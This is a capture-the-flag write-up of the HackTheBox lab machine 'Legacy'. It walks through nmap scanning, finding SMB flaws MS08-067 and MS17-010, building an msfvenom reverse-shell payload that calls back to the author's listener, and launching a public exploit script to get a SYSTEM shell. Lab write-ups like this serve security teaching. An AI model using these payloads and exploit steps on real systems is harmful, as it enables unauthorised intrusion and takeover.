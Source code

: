 ```yaml
---
layout: default
title: HackTheBox - Legacy Writeup
permalink: /htb/legacy
---
```


# Legacy

> **Name:** Legacy
>
> **Creator:** [ch4p](https://www.hackthebox.eu/home/users/profile/1)
>
> **Difficulty:** Easy


## Intro

[Legacy](https://www.hackthebox.eu/home/machines/profile/2) was released on 15 Mar 2017 and is one of the first boxes released on the platform. It is one of the easier Windows boxes available, which makes it a good place to start for beginners. I originally completed this when it had already retired and I was making my way through some of the older boxes to help further my understanding. As it was so simple I never made notes so I've had to fully go back and re-do the box to make this write-up. 


## Getting Started

As is always the case we start off with performing a full port scan against the box to  get an idea of what services are available. My preferred command is shown below:

``` nmap -p- 10.10.10.4 -sC -sV -oA full-scan ```

This command runs a SYN, or half-open scan against all ports. With the additional flags running default scripts, version detection and creating an output file in various formats. 

The scan gives the following results:

![Scan Results]({{site.url}}/assets/legacy/scan-results.png)


## Nmap Vulnerability Scan

The big thing to take away from these results is that it is a Windows XP box. This went end of life in April 2014, so there is bound to be some unpatched vulnerabilities to play with! SMB has had many vulnerabilities over the years and is a good place to start. A nice easy way to quickly check for vulnerabilities is using the Nmap scripting engine. By checking the contents of the Nmap scripts directory it is possible to see which ones are available.

![Nmap SMB Vuln Scripts({{site.url}}/assets/legacy/nse-search.png)

As Nmap scripts are things that you may be checking quite often I find it useful to setup an alias to the command shown in the screenshot above. You can do this by adding the following line into your ```.bashrc``` file: 

``` alias nse=ls -al /usr/share/nmap/scripts/ | grep ```

Now you can just use ```nse smb-vuln``` to get the same results. Since there are so many SMB vuln scripts available in Nmap we will just load all of them up with the following command:

``` nmap -p 139,445 10.10.10.4 --script=smb-vuln* ```

The results show that the SMB service is vulnerable to MS08-067, made famous by Conficker, and MS17-010 that was made famous by the Wannacry ransomware attacks. As the box name is Legacy it's a safe assumption to make that MS08-067 is the intended method. Especially since I know there is another box that is has MS17-010 as the intended method. 

## Exploit

Searchsploit shows a few exploits are available for this, however there is a good one on Github by [Jivoi](https://github.com/jivoi/pentest/blob/master/exploit_win/ms08-067.py) which has options for multiple OS. It does require some shelcode to be switched out for the reverse shell. This can be created using msfvenom with this command:

``` msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.32 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f py -v shellcode -a x86 ```

Lets breakdown what all those flags mean:

``` -p ``` is the payload of choice, in this case a simple TCP reverse shell for Windows.
``` LHOST= ``` is the listening host IP address to be set. 
``` LPORT= ``` is the port you want to listen on. 
``` EXITFUNC= ``` sets a function hash in the payload that specifies a DLL and a function to call once the payload is complete.
``` -b ``` is a list of bad characters - these were taken directly from Jivoi's script.
``` -f ``` is the format to create the shellcode in. 
``` -v ``` sets the variable that the shellcode will be assigned to. The default is ``` buf ``` and I am only changing this to match what is in the original script.
``` -a ``` sets the architecture the shellcode is to be run on. 

This will output some shellcode as show below, that can be copy pasted into the exploit to replace the existing shellcode. 

![Shellcode]({{site.url}}/assets/legacy/generate-shellcode.png)

As the existing script is written in python2 and debian / Kali having dropped support for it, the exploit needs to be updated to python3. I've uploaded a copy of it to [github](https://github.com/Agent-Tiro/HackTheBoxScripts/blob/master/Python3-MS08-067.py) incase it's of use to anyone else.

Running an Nmap scan to do OS detection gives an indication that it is most likely XP SP3.

![OS Detection]({{site.url}}/assets/legacy/aggressive-os.png)

The exploit is launched with the following command, using option 6 for XP SP3:

``` python3.7 ms08-067.py 10.10.10.4 6 445 ```

![Exploit]({{site.url}}/assets/legacy/legacy-exploit.png)

Upon completion the listener that was setup beforehand will have a shell waiting for us, running as SYSTEM. 

![Shell]({{site.url}}/assets/legacy/catching-shell.png)

As whoami isn't on this version of XP it would require uploading it to say definitively that we are SYSTEM. But there are a few giveaways. Firstly, landing in ``` C:\Windows\system32 ``` generally only happens for privileged users, and secondly being able to read the root flag.

